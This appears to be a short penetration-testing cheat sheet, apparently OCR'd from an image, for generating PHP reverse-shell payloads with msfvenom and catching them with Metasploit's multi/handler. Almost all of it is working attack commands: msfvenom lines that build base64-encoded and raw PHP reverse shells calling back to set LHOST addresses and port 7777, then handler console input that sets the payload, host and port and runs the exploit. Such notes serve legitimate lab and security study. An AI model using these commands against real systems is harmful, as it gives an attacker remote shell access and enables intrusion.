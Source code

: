 # msfvenom can be used to create payloads in almost all formats

# list supported output formats

msfvenom --list formats

# -p : payload file

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

# setting lhost, lport (local)

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options

# exploit run

exploit
run
